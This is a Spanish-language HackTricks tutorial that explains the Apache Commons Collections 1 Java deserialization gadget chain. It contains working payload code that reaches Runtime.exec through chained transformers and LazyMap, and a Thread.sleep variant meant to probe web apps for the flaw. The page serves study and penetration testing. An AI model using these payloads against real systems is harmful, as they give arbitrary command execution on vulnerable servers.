 # CommonsCollection1 Payload - Java Transformers a Rutime exec() y Thread Sleep

{{#include ../../banners/hacktricks-training.md}}

## Java Transformers a Rutime exec()

En varios lugares puedes encontrar una carga útil de deserialización de java que utiliza transformadores de las colecciones comunes de Apache como la siguiente:
```java
import org.apache.commons.*;
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.*;
import java.io.*;
import java.lang.reflect.InvocationTargetException;
import java.util.Map;
import java.util.HashMap;

public class CommonsCollections1PayloadOnly {
public static void main(String... args) {
String[] command = {"calc.exe"};
final Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class), //(1)
new InvokerTransformer("getMethod",
new Class[]{ String.class, Class[].class},
new Object[]{"getRuntime", new Class[0]}
), //(2)
new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, new Object[0]}
), //(3)
new InvokerTransformer("exec",
new Class[]{String.class},
command
) //(4)
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Map map = new HashMap<>();
Map lazyMap = LazyMap.decorate(map, chainedTransformer);

//Execute gadgets
lazyMap.get("anything");
}
}
```
Si no sabes nada sobre los payloads de deserialización de Java, podría ser difícil entender por qué este código ejecutará un calc.

Primero que nada, necesitas saber que un **Transformer en Java** es algo que **recibe una clase** y **la transforma en otra diferente**.\
También es interesante saber que el **payload** que está siendo **ejecutado** aquí es **equivalente** a:
```java
Runtime.getRuntime().exec(new String[]{"calc.exe"});
```
O **más exactamente**, lo que se va a ejecutar al final sería:
```java
((Runtime) (Runtime.class.getMethod("getRuntime").invoke(null))).exec(new String[]{"calc.exe"});
```
### Cómo

Entonces, ¿cómo se presenta la primera carga útil equivalente a esas "simples" líneas de código?

**Primero** que nada, puedes notar en la carga útil que se **crea una cadena (array) de transformaciones**:
```java
String[] command = {"calc.exe"};
final Transformer[] transformers = new Transformer[]{
//(1) - Get gadget Class (from Runtime class)
new ConstantTransformer(Runtime.class),

//(2) - Call from gadget Class (from Runtime class) the function "getMetod" to obtain "getRuntime"
new InvokerTransformer("getMethod",
new Class[]{ String.class, Class[].class},
new Object[]{"getRuntime", new Class[0]}
),

//(3) - Call from (Runtime) Class.getMethod("getRuntime") to obtain a Runtime oject
new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, new Object[0]}
),

//(4) - Use the Runtime object to call exec with arbitrary commands
new InvokerTransformer("exec",
new Class[]{String.class},
command
)
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```
Si lees el código, notarás que si de alguna manera encadenas la transformación del array, podrías ejecutar comandos arbitrarios.

Entonces, **¿cómo se encadenan esas transformaciones?**
```java
Map map = new HashMap<>();
Map lazyMap = LazyMap.decorate(map, chainedTransformer);
lazyMap.get("anything");
```
En la última sección de la carga útil, puedes ver que se **crea un objeto Map**. Luego, se ejecuta la función `decorate` de `LazyMap` con el objeto map y los transformadores encadenados. A partir del siguiente código, puedes ver que esto hará que los **transformadores encadenados** se copien dentro del atributo `lazyMap.factory`:
```java
protected LazyMap(Map map, Transformer factory) {
super(map);
if (factory == null) {
throw new IllegalArgumentException("Factory must not be null");
}
this.factory = factory;
}
```
Y luego se ejecuta el gran final: `lazyMap.get("anything");`

Este es el código de la función `get`:
```java
public Object get(Object key) {
if (map.containsKey(key) == false) {
Object value = factory.transform(key);
map.put(key, value);
return value;
}
return map.get(key);
}
```
Y este es el código de la función `transform`
```java
public Object transform(Object object) {
for (int i = 0; i < iTransformers.length; i++) {
object = iTransformers[i].transform(object);
}
return object;
}
```
Así que, recuerda que dentro de **factory** habíamos guardado **`chainedTransformer`** y dentro de la función **`transform`** estamos **recorriendo todos esos transformers encadenados** y ejecutando uno tras otro. Lo curioso es que **cada transformer está usando `object`** **como entrada** y **object es la salida del último transformer ejecutado**. Por lo tanto, **todas las transformaciones están encadenadas ejecutando la carga útil maliciosa**.

### Resumen

Al final, debido a cómo lazyMap está gestionando los transformers encadenados dentro del método get, es como si estuviéramos ejecutando el siguiente código:
```java
Object value = "someting";

value = new ConstantTransformer(Runtime.class).transform(value); //(1)

value = new InvokerTransformer("getMethod",
new Class[]{ String.class, Class[].class},
new Object[]{"getRuntime", null}
).transform(value); //(2)

value = new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, new Object[0]}
).transform(value); //(3)

value = new InvokerTransformer("exec",
new Class[]{String.class},
command
).transform(value); //(4)
```
_Tenga en cuenta cómo `value` es la entrada de cada transformación y la salida de la transformación anterior, lo que permite la ejecución de una línea:_
```java
((Runtime) (Runtime.class.getMethod("getRuntime").invoke(null))).exec(new String[]{"calc.exe"});
```
Nota que aquí **se explicaron los gadgets** utilizados para el **payload de ComonsCollections1**. Pero queda **cómo todo esto comienza a ejecutarse**. Puedes ver [aquí que **ysoserial**](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java), para ejecutar este payload, utiliza un objeto `AnnotationInvocationHandler` porque **cuando este objeto se deserializa**, **invocará** la función `payload.get()` que **ejecutará todo el payload**.

## Java Thread Sleep

Este payload podría ser **útil para identificar si la web es vulnerable ya que ejecutará un sleep si lo es**.
```java
import org.apache.commons.*;
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.*;
import java.io.*;
import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.Map;
import java.util.HashMap;

public class CommonsCollections1Sleep {
public static void main(String... args) {
final Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Thread.class),
new InvokerTransformer("getMethod",
new Class[]{
String.class, Class[].class
},
new Object[]{
"sleep", new Class[]{Long.TYPE}
}),
new InvokerTransformer("invoke",
new Class[]{
Object.class, Object[].class
}, new Object[]
{
null, new Object[] {7000L}
}),
};

ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Map map = new HashMap<>();
Map lazyMap = LazyMap.decorate(map, chainedTransformer);

//Execute gadgets
lazyMap.get("anything");

}
}
```
## Más Gadgets

Puedes encontrar más gadgets aquí: [https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html](https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html)

##

{{#include ../../banners/hacktricks-training.md}}
